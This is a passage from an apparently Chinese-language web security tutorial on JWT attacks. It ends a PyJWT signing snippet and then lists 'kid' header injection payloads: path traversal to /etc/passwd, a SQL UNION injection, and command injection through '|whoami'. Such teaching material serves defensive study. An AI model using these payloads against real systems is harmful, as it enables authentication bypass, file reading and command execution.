 ```python
                       key=key,  # 进行加密签名的密钥
                       algorithm="HS256",  # 指明签名算法方式, 默认也是HS256
                       headers=headers  # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                       ).decode('ascii')  # python3 编码后得到 bytes, 再进行解码(指明解码的格式), 得到一个str
print(jwt_token)


```

![image-20230608204947847](../../../images/image-20230608204947847.png)



#### 利用

选择哪种方法，取决于后端是如何利用kid来找到对应密钥

```javascript
#目录遍历
{
    "alg" : "HS256",
    "typ" : "jwt",
    "kid" : "/etc/passwd"
}
#sql注入
{
    "alg" : "HS256",
    "typ" : "jwt",
    "kid" : "aaaaaaa' UNION SELECT 'key';-- "
#命令执行
{
    "alg" : "HS256",
    "typ" : "jwt",
    "kid" : "/path/to/key_file|whoami"
}
```





### 对称加密绕过--公钥泄露

